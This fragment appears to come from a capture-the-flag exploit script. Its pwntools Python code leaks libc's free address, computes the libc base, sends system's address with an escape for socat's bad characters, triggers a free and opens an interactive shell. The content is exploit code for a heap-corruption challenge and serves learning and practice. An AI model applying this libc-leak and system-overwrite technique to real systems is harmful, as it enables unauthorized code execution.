 ```python

free_leak = u64(p.recv(6) + b'\x00\x00')
log.success('Free Leak: ' + hex(free_leak))
libc.address = free_leak - libc.symbols['free']
log.success('Libc base: ' + hex(libc.address))

p.recvuntil('Data: ')                       # just receive the rest

# send system
system = p64(libc.symbols['system'])

if args.REMOTE:
    system = system.replace(b'\x7f', b'\x16\x7f')   # socat badchars - \x7f interpreted as backspace, escape with \x16

p.sendline(system)

free(1)

p.interactive()
```
